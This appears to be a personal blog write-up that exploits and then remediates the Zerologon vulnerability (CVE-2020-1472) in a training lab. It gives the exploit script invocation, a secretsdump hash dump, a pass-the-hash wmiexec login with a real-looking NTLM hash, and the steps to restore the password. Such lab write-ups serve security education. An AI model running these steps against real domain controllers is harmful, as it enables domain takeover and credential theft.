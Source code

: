# CVE - 2020–1472 (Zerologon Vulnerability)-Exploitation & Remediation

**NOTE**: This is my first vulnerability-related writeup and I have tried to write and explain in layman terms. There may be knowledge gaps in between, which I am trying my hardest to cover and understand

**I have tried to reproduce the vulnerability in this blog entry, while trying to understand it's severity and impact**

## **Section 1 — Exploiting Zerologon Vulnerability(CVE 2020–1472)**

### **About the Vulnerability**

Netlogon is a service that runs on the Domain Controller. This service is responsible for authenticating user logins — effectively verifying the user is who they claim to be. As this function is one of the core functions of a Domain Controller, the Netlogon service cannot be stopped or firewalled off from networks of domain-joined computers.

* CVSS Score — 10
* Attack Complexity — Low
* Privileges Required — Low
* Vulnerability Found — July 2020​

![](https://cdn-images-1.medium.com/max/1000/1\*zdJeAc4HdVPaL8jvpmfpWw.png)

### E**xploitable Point**

The Netlogon RPC service, used for computer and user authentication in Windows, also allows a computer to update its computer password within the domain. For several historical reasons, this service does not use standard authentication protocols to authenticate the computer. The vulnerability exists within the non-standard method used to authenticate.

Twitter thread providing a nice walkthrough — [https://twitter.com/\_dirkjan/status/1306280553281449985](https://twitter.com/\_dirkjan/status/1306280553281449985)

## E**xploitation Walkthrough**

> What do you need?&#x20;
>
> Impacket — to capture password hashes and dump them&#x20;
>
> Windows 10 OS (on which the vulnerable service exists)&#x20;
>
> Windows 10 VM — to perform the exploit on RangeForce’s&#x20;
>
> ZeroLogon Vulnerability Lab (Guided Mode)

First, let’s clone the [impacket](https://github.com/SecureAuthCorp/impacket) repository from Github&#x20;

Step to install:-

> `git clone` [`https://github.com/SecureAuthCorp/impacket.git`](https://github.com/SecureAuthCorp/impacket.git)``

Now, let’s copy the exploit too from Github \<cve-2020–1472-exploit.py>

Credits to [dirkjanm](https://github.com/dirkjanm).

> [https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py](https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py)

Export the exploit to /impacket/examples/CVE-2020–1472/

Now, let’s switch to this directory

By now, we have identified the following details about the vulnerable service:-

> NetBIOS computer name: DC IP address: 192.168.0.4

> Syntax of exploit command:- ./cve-2020–1472-exploit.py -n \<NetBIOS computer name> -t \<IP address>

Now to run the script and exploit

> `./cve-2020–1472-exploit.py -n DC -t 192.168.0.4​`

![What does this exploit do?](https://cdn-images-1.medium.com/max/1000/1\*yq9qEq8dTnIFQwn39Wt-Fw.png)

### **What does this exploit do?**

It resets the Domain Controller’s account password to an empty string(easy login with a spacebar)

The gist: Your Domain Controller account’s password is a blank string

**Next objective-**dump password hashes from the Domain Controller

> Domain Controller name NetBios Name IP Address of vulnerable host

We make use of the secretsdump.py module from Impacket to perform this task

> Password Dump command syntax- python3 secretsdump.py -no-pass -just dc\<Domain/NETBIOS\_NAME\\\[email protected]>

(This command does not work with the simple execution command ./)

Filling in the blanks:-

> `python3 secretsdump.py -no-pass -just-dc CONTOSO.AZURE/DC\$@192.168.0.4`

![This leads to the dumping of around 60 password](https://cdn-images-1.medium.com/max/1000/1\*t2iS-\_QDxa2kfwo3JlOdBw.png)

&#x20;This leads to the dumping of around 60 password hashes:-

​

![](https://cdn-images-1.medium.com/max/1000/1\*GZye3Qhobt6Qf\_7HQruMxQ.png)

​**Next objective** — Logging onto the account of ContosoAdmin (Domain Controller admin’s account) — using the account’s dumped hash

Scrolling through the dumped list, we find the appropriate entry:-​

![](https://cdn-images-1.medium.com/max/1000/1\*KpuYcdLqTSeE6BvaneTOOQ.png)

Logging on to the server, using the wmiexec.py module:-

> `python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:a2bd759faf686d052f5f7c8337a2ff51 CONTOSO.AZURE/DC\$@192.168.0.4`

​We are in!

![](https://cdn-images-1.medium.com/max/1000/1\*1Ai0FvKkDd-jXyAVQLsHzg.png)

## Se**ction 2 — Remediation from the Vulnerability**

**How?**

* Manually restoring your password (or)
* Update and install the August 2020 & February 2021 Patch Tuesday release for the same (patches released in two phases)

### **Manual Password Restore — How does it work?**

As you exploit the vulnerability, the password hash is being erased and replaced with a blank string in the SAM file, from where your computer cross-checks passwords as a user logs in

Using the same methodology, we copy your compromised password (blank space in this case) from the SAM hive to the Domain Controller of the exploited machine. Further, copy it to your Kali VM and then delete it from the Domain Controller

Which we achieve from the following steps:-

​

![](https://cdn-images-1.medium.com/max/1000/1\*GHrg-fhyBO30lYWDRwwhWw.png)

​Now exiting the Windows machine, using exit- to the Kali machine

The next task is to parse the obtained SAM file, from the Domain Controller

> secretsdump.py -sam sam.save -system system.save -security security.save LOCAL Why parse? — To see where accounts are mapped to and to gain other information​![](https://cdn-images-1.medium.com/max/750/1\*q8r1dbLK4yGkr2R2QhjSAQ.png)![](https://cdn-images-1.medium.com/max/1000/1\*ZBl3hRpBypYvSE4FreGP-A.png)

> Recovered password hash — 89ed2eb25e25770b7dd850e797ef8c7b49cc4d793ea50f9db33fe91cde5b97c20b8aa582a3acd371618e7f7ed5ad9ee87df1d073641c6718cb63ed7409711480

Now to place the final piece of the jigsaw — restoring the original password. For that, we have a customized script named — reinstall\_original\_pw.py

> Syntax — reinstall\_original\_pw.py \<DC\_NETBIOS\_NAME> \<DC\_IP\_ADDR> \<ORIG\_NT\_HASH>

Filling in the blanks here,

> `./reinstall_original_pw.py DC 192.168.0.4 89ed2eb25e25770b7dd850e797ef8c7b49cc4d793ea50f9db33fe91cde5b97c20b8aa582a3acd371618e7f7ed5ad9ee87df1d073641c6718cb63ed7409711480`

## Conclusion

This is an easy vulnerability to exploit, with less complexity, considering that we are still dependant on IT Systems to perform administrative tasks. This may be disputed, but 100% security may be a myth unless drastic action is taken to respond and patch even the slightest of issues

Thank you for the time taken to devour this purple team blog entry.

## Your opinion matters

My audience has a voice. Feel free to reach out to me, on my socials (links are on top of this page) for any queries to be addressed. Dropping a sweet message would make my day

Let your opinion about this write-up be known, by selecting any one of the emojis below!
